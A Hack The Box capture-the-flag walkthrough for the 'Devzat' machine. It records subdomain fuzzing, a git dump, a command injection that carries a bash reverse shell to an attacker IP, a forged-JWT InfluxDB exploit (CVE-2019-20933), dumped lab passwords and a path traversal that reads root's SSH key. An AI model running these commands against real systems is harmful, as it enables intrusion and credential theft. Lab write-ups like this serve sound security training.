



# [Devzat](https://app.hackthebox.com/machines/devzat)

```bash
nmap -p- --min-rate 5000 10.10.11.118 -Pn
```



After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80,8000 10.10.11.118 -Pn
```


From nmap scan result, I see that ip address is resolved into `devzat.htb` domain, that's why I add this into `/etc/hosts` file for resolving purposes.


Our web application is like below.


Let's do `Subdomain Enumeration` via `wfuzz` command.
```bash
wfuzz -u http://devzat.htb -H 'Host: FUZZ.devzat.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw 26
```


Let's add `pets.devzat.htb` domain into `/etc/hosts` file.

I looked at web application.


Let's do `nmap` scan for `pets.devzat.htb` application's port `80`.

```bash
nmap -A -sC -sV -p80 pets.devzat.htb -Pn
```




I find `.git` directory, let's dump this via [git-dumper](https://github.com/arthaud/git-dumper).

```bash
python3 git_dumper.py http://pets.devzat.htb/.git/ /home/kali/Desktop/pets_devzat_htb/
```


Let's make `Source Code` analysis.


I looked at `addPet` function which I tested via adding cat previously on website, is vulnerable to `Input Validation`.


It means, that I can inject what value, I want here.

Let's turn on our `owasp zap` and start `API` pentesting.


Our `POST` request to `API` is like below.


Let's inject some payloads into `species` parameter. I add `Directory Traversal` payload into here.


I see result of my payload as below.


Let's inject `reverse shell` payload into here.
```bash
curl -X POST http://pets.devzat.htb/api/pet -d '{ "name": "dr4ks",  "species": "cat; bash -c \"bash -i >& /dev/tcp/10.10.14.18/1337 0>&1\"" }' -H "'Content-Type': 'application/json'"
```


Hola, I got reverse shell from port `1337`.




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


For `Privilege Escalation` vector, I just run `netstat -ntpl` to see open ports on victim machine.


Here, I see port `8086` is open and `curl` this port.
```bash
curl -v http://127.0.0.1:8086/
```


That's `Influxdb` and version is `1.7.5`.


I found publicly knwon exploit for this version of `Influxdb` is that [CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933).


It means we need to create `JWT` token by using `username` and `exp` fields via `HS256` algorithm as below.

We can do this via `Python` shell.

```bash
import jwt
import time
jwt.encode({"exp": time.time()+10000, "username": "admin"}, "", algorithm="HS256")
```


**Note:** Don't forget change `username` field into `admin` value.


Let's use this `JWT` token while making request to `Influxdb` for `Authorization` HTTP request header as below.
```bash
curl -G localhost:8086/query?pretty=true --data-urlencode "q=SHOW DATABASES" -H "Authorization: Bearer {jwt}"
```


I just need to use `devzat` database and `user` table on here. We need to send query to this table to dump all user's data.
```bash
curl -G --data-urlencode "q=select * from \"user\"" -d "db=devzat" localhost:8086/query?pretty=true -H "Authorization: Bearer $token"
```


I dump usernames and their passwords as below.

```bash
wilhelm: WillyWonka2021
catherine: woBeeYareedahc7Oogeephies7Aiseci
charles: RoyalQueenBee$
```


Let's check credentials of `catherine` user.


user.txt


On `/var/backups` folder, I find two `.zip` files and download both of them into my machine.

First, we need to open http.server.
```bash
python3 -m http.server --bind 10.10.11.118 1337
```


Second, we need to use `wget` command to download these files.
```bash
wget http://10.10.11.118:1337/devzat-main.zip
wget http://10.10.11.118:1337/devzat-dev.zip
```


I `unzip` the file called `devzat-dev.zip` and find a file called `commands.go` which have method called `fileCommand()` leak password.


Password: CeilingCatStillAThingIn2021?


From `victim` machine, we need to connect into `8443` port via `ssh`.

It is `devbot`.


**Reminder!** To work with `devbot`, you need to make stable connection, I mean it shouldn't be shell which you got from `reverse shell`. For that reason, add your public key into victim machine and connect into victim machine by using your private key via `ssh` command to get persistent shell.

```bash
ssh -p 8443 dr4ks@localhost
```


I look at `commands` for my user that can run or not.


Let's use `/file` option for this bot and use our leaked password.


root.txt


Let's take `consistent` shell, for this, we need to grab private key (id_rsa) file of root user.
```bash
/file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
```


I got persistent shell, finally.

